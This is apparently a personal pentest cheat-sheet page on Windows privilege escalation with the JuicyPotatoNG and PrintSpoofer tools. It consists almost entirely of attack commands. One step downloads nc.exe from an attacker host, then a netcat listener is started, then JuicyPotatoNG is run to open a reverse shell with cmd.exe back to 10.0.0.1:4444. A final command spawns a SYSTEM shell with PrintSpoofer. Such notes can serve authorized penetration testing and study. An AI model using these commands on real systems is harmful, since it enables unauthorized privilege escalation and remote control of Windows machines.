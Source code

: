 ```yaml
---
title: Windows PrivEsc with Potatoes
description: 
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://jlajara.gitlab.io/Potatoes_Windows_Privesc
date: 2023-04-08
draft: false
---
```


## JuicyPotato

We can use a payload from [here](https://github.com/antonioCoco/JuicyPotatoNG).  
Before exploiting, we need to upload **`nc.exe`** (it is available from [here](https://github.com/int0x33/nc.exe/)) to the target machine.

```powershell
Invoke-WebRequest -Uri http://10.0.0.1:8000/nc.exe -OutFile c:\Temp\nc.exe
```

Next start a listener in local machine.

```bash
nc -lvnp 4444
```

Then execute **`JuicyPotato`** in target machine.

```powershell
JuicyPotatoNG.exe -t * -p "c:\Temp\nc.exe" -a "10.0.0.1 4444 -e cmd.exe"
```

<br />

## PrintSpoofer

**[this repo](https://github.com/dievus/printspoofer)** is available for compiled executable.

```bash
PrintSpoofer.exe -i -c cmd
```

